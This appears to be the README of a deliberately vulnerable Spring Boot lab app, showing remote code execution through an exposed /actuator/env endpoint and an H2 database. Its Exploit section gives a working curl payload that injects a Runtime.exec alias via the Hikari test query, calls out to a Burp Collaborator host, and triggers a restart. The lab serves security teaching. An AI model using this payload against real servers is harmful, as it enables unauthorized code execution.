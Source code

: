# Spring Boot Actuator H2 RCE

## Introduction

This is a sample app based off the default Spring Boot app in Spring's [documentation](https://spring.io/guides/gs/spring-boot-docker/) that demonstrates how an attacker can achieve RCE on an instance with an exposed `/actuator/env` endpoint and a H2 database.

## Usage

First, start the app. You can do this locally or with Docker.

### Local
If you run this locally, you need JDK 1.8 or later and Maven 3.2+.

`./mvnw package && java -jar target/gs-spring-boot-docker-0.1.0.jar`

### Docker

1. `sudo docker build -t spaceraccoon/spring-boot-rce-lab .`
2. `sudo docker run -p 8080:8080 -t spaceraccoon/spring-boot-rce-lab`

The app is now running on `localhost:8080`.

### Exploit

1. (Modify the curl request accordingly) `curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'curl  http://x.burpcollaborator.net\');\"}' 'http://localhost:8080/actuator/env'`
2. `curl -X 'POST' -H 'Content-Type: application/json' 'http://localhost:8080/actuator/restart'`

You will receive a pingback.